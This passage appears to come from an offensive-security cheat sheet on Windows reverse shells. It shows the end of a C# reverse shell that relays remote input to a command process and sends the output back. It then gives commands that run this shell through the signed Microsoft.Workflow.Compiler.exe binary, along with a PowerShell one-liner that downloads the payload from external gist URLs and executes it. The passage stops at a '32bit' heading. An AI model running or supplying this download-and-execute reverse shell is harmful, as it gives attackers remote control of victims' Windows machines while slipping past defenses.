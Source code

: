 ```
						p.Start();
						p.BeginOutputReadLine();

						while(true)
						{
							strInput.Append(rdr.ReadLine());
							//strInput.Append("\n");
							p.StandardInput.WriteLine(strInput);
							strInput.Remove(0, strInput.Length);
						}
					}
				}
			}
		}

		private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();

            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
                    strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch (Exception err) { }
            }
        }

	}
}
```
```
### C# using compiler

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt.txt REV.shell.txt
```
```
[[https://gist.github.com/BankSecurity/812060a13e57c815abe21ef04857b066|REV.txt: https://gist.github.com/BankSecurity/812060a13e57c815abe21ef04857b066]]

[[https://gist.github.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639|REV.shell: https://gist.github.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639]]

Automatic download and execution:

```csharp
64bit:
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell

32bit:
```